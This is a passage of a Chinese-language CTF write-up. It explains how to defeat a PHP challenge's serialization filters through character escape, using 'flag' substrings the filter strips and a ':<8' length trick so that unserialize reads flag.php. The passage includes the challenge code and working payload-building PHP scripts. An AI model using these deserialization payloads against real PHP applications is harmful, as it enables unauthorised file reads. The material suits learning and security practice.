     }
    $log = $_GET['log'];
    if(!is_serialized($log)){
        die('no1');
    }
    $log1 = preg_replace("/A/","C",$log);
    $log2 = preg_replace("/B/","D",$log1);
    if(!unserialize($log2)){
        die('no2');
    }
    $log = preg_replace("/[<>*#'|?\n ]/","",$log);
    $log = str_replace('flag','',$log);
    $log_unser = unserialize($log);
    ?>

看着长，其实简单的很。
首先抛开waf不看。A类控制参数，B类readfile，而A类下wakeup下正好有个调用B类的obj。
所以直接

    <?php
    class A {
        public $file;
        public $weblogfile;
    }
    $a=new A();
    $a->weblogfile='flag.php';
    echo serialize($a);
    ?>

即可，但是肯定不会这么简单的，关键在这里：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210606004129.png)

在前面用:<8绕过了

    $r = preg_match_all('/:\d*?:"/',$data,$m,PREG_OFFSET_CAPTURE);

之后，传到log2那里就变成了这样：

    O:1:"C":2:{s:4:"file";s:14:"flag{xxxxxxxx}";s:10:"weblogfile";s:<8:"fflaglag.php";}

显然这是无法成功反序列化的，我们需要让字符逃逸，长度为25
   
    ";s:10:"weblogfile";s:40:

利用flag和一堆符号都能换空的特点：

    <?php
    class A {
	    public $file='flagflagflagflagflagflag<';
	    public $weblogfile=';s:10:"weblogfile";s:<8:"flflagag.php";}';    
    }
    echo serialize (new A);
这样传到log2那里就变成了：

    O:1:"C":2:{s:4:"file";s:25:"flagflagflagflagflagflag<";s:10:"weblogfile";s:40:";s:10:"weblogfile";s:<8:"flflagag.php";}";}
